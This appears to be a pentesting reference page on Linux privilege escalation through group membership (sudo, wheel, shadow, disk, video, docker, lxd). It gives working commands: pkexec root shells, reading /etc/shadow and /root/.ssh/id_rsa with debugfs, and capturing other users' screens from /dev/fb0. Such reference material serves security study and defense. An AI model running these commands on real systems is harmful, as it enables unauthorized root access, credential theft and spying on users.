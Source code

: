 

 


# Sudo/Admin Groups

## **PE - Method 1**

**Sometimes**, **by default \(or because some software needs it\)** inside the **/etc/sudoers** file you can find some of these lines:

```bash
# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# Allow members of group admin to execute any command
%admin 	ALL=(ALL:ALL) ALL
```

This means that **any user that belongs to the group sudo or admin can execute anything as sudo**.

If this is the case, to **become root you can just execute**:

```text
sudo su
```

## PE - Method 2

Find all suid binaries and check if there is the binary **Pkexec**:

```bash
find / -perm -4000 2>/dev/null
```

If you find that the binary pkexec is a SUID binary and you belong to sudo or admin, you could probably execute binaries as sudo using pkexec.  
Check the contents of:

```bash
cat /etc/polkit-1/localauthority.conf.d/*
```

There you will find which groups are allowed to execute **pkexec** and **by default** in some linux can **appear** some of the groups **sudo or admin**.

To **become root you can execute**:

```bash
pkexec "/bin/sh" #You will be prompted for your user password
```

If you try to execute **pkexec** and you get this **error**:

```bash
polkit-agent-helper-1: error response to PolicyKit daemon: GDBus.Error:org.freedesktop.PolicyKit1.Error.Failed: No session for cookie
==== AUTHENTICATION FAILED ===
Error executing command as another user: Not authorized
```

**It's not because you don't have permissions but because you aren't connected without a GUI**. And there is a work around for this issue here: [https://github.com/NixOS/nixpkgs/issues/18012\#issuecomment-335350903](https://github.com/NixOS/nixpkgs/issues/18012#issuecomment-335350903). You need **2 different ssh sessions**:

{% code title="session1" %}
```bash
echo $$ #Step1: Get current PID
pkexec "/bin/bash" #Step 3, execute pkexec
#Step 5, if correctly authenticate, you will have a root session
```
{% endcode %}

{% code title="session2" %}
```bash
pkttyagent --process <PID of session1> #Step 2, attach pkttyagent to session1
#Step 4, you will be asked in this session to authenticate to pkexec
```
{% endcode %}

# Wheel Group

**Sometimes**, **by default** inside the **/etc/sudoers** file you can find this line:

```text
%wheel	ALL=(ALL:ALL) ALL
```

This means that **any user that belongs to the group wheel can execute anything as sudo**.

If this is the case, to **become root you can just execute**:

```text
sudo su
```

# Shadow Group

Users from the **group shadow** can **read** the **/etc/shadow** file:

```text
-rw-r----- 1 root shadow 1824 Apr 26 19:10 /etc/shadow
```

So, read the file and try to **crack some hashes**.

# Disk Group

 This privilege is almost **equivalent to root access** as you can access all the data inside of the machine.

Files:`/dev/sd[a-z][1-9]`

```text
debugfs /dev/sda1
debugfs: cd /root
debugfs: ls
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```

Note that using debugfs you can also **write files**. For example to copy `/tmp/asd1.txt` to `/tmp/asd2.txt` you can do:

```bash
debugfs -w /dev/sda1
debugfs:  dump /tmp/asd1.txt /tmp/asd2.txt
```

However, if you try to **write files owned by root** \(like `/etc/shadow` or `/etc/passwd`\) you will have a "**Permission denied**" error.

# Video Group

Using the command `w` you can find **who is logged on the system** and it will show an output like the following one:

```bash
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      22:16    5:13m  0.05s  0.04s -bash
moshe    pts/1    10.10.14.44      02:53   24:07   0.06s  0.06s /bin/bash
```

The **tty1** means that the user **yossi is logged physically** to a terminal on the machine.

The **video group** has access to view the screen output. Basically you can observe the the screens. In order to do that you need to **grab the current image on the screen** in raw data and get the resolution that the screen is using. The screen data can be saved in `/dev/fb0` and you could find the resolution of this screen on `/sys/class/graphics/fb0/virtual_size`

```bash
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```

To **open** the **raw image** you can use **GIMP**, select the **`screen.raw`** file and select as file type **Raw image data**:

![](../../.gitbook/assets/image%20%28208%29.png)

Then modify the Width and Height to the ones used on the screen and check different Image Types \(and select the one that shows better the screen\):

![](../../.gitbook/assets/image%20%28295%29.png)

# Root Group

It looks like by default **members of root group** could have access to **modify** some **service** configuration files or some **libraries** files or **other interesting things** that could be used to escalate privileges...

**Check which files root members can modify**:

```bash
find / -group root -perm -g=w 2>/dev/null
```

# Docker Group

You can mount the root filesystem of the host machine to an instance’s volume, so when the instance starts it immediately loads a `chroot` into that volume. This effectively gives you root on the machine.

{% embed url="https://github.com/KrustyHack/docker-privilege-escalation" %}

{% embed url="https://fosterelli.co/privilege-escalation-via-docker.html" %}

# lxc/lxd Group

[lxc - Privilege Escalation](lxd-privilege-escalation.md)



 


